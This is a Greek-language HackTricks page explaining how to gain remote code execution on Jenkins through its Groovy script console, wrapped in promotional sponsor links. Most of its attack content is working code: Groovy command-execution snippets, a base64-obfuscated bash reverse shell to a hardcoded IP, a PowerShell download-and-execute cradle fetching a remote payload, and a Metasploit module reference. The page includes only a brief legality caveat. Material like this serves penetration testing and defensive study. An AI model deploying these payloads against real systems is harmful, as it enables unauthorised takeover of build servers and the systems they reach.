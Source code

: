 # Jenkins RCE με Groovy Script

<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF**, ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>

## Jenkins RCE με Groovy Script

Αυτό είναι λιγότερο θορυβώδες από το να δημιουργήσετε ένα νέο έργο στο Jenkins

1. Μεταβείτε στο _path\_jenkins/script_
2. Εντός του πλαισίου κειμένου εισαγάγετε το script
```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```
Μπορείτε να εκτελέσετε μια εντολή χρησιμοποιώντας: `cmd.exe /c dir`

Στο **linux** μπορείτε να κάνετε: **`"ls /".execute().text`**

Εάν χρειάζεστε να χρησιμοποιήσετε _εισαγωγικά_ και _μονά εισαγωγικά_ μέσα στο κείμενο. Μπορείτε να χρησιμοποιήσετε _"""PAYLOAD"""_ (τριπλά διπλά εισαγωγικά) για να εκτελέσετε το φορτίο.

**Ένα άλλο χρήσιμο groovy script** είναι (αντικαταστήστε \[ΕΙΣΑΓΩΓΗ ΕΝΤΟΛΗΣ]):
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Αντίστροφη κέλυφος σε Linux

Για να εκτελέσετε ένα αντίστροφο κέλυφος σε ένα σύστημα Linux, μπορείτε να χρησιμοποιήσετε την ακόλουθη μέθοδο:

1. Δημιουργήστε έναν ακροατήριο σε έναν εξωτερικό διακομιστή. Μπορείτε να χρησιμοποιήσετε την εντολή `nc -lvp <port>` για να δημιουργήσετε τον ακροατήριο σε ένα συγκεκριμένο θύρα.

2. Δημιουργήστε ένα αντίστροφο κέλυφος χρησιμοποιώντας την εντολή `bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1`. Αντικαταστήστε την `<attacker_ip>` με την διεύθυνση IP του εξωτερικού διακομιστή και την `<port>` με την θύρα που έχετε ορίσει για τον ακροατήριο.

3. Εκτελέστε την εντολή κέλυφους στον εξωτερικό διακομιστή για να αρχίσει η ακρόαση στη συγκεκριμένη θύρα.

4. Όταν ο στόχος εκτελέσει την εντολή αντίστροφου κελύφους, θα συνδεθεί αυτόματα με τον εξωτερικό διακομιστή και θα έχετε πρόσβαση στο σύστημα του.

Αυτή η τεχνική σας επιτρέπει να αποκτήσετε αντίστροφο κέλυφος σε ένα σύστημα Linux και να αποκτήσετε πλήρη έλεγχο επί του συστήματος από απόσταση. Είναι σημαντικό να σημειωθεί ότι η χρήση αυτής της τεχνικής χωρίς την έγκριση του νόμιμου κατόχου του συστήματος αποτελεί παράνομη δραστηριότητα.
```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMi80MzQzIDA+JjEnCg==}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
### Αντίστροφη κέλυφος σε Windows

Μπορείτε να προετοιμάσετε έναν HTTP διακομιστή με ένα αντίστροφο κέλυφος PS και να χρησιμοποιήσετε το Jeking για να το κατεβάσετε και να το εκτελέσετε:
```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```
### Σενάριο

Μπορείτε να αυτοματοποιήσετε αυτήν τη διαδικασία με [**αυτό το σενάριο**](https://github.com/gquere/pwn\_jenkins/blob/master/rce/jenkins\_rce\_admin\_script.py).

Μπορείτε να χρησιμοποιήσετε το MSF για να λάβετε ένα αντίστροφο κέλυφος:
```
msf> use exploit/multi/http/jenkins_script_console
```
<details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
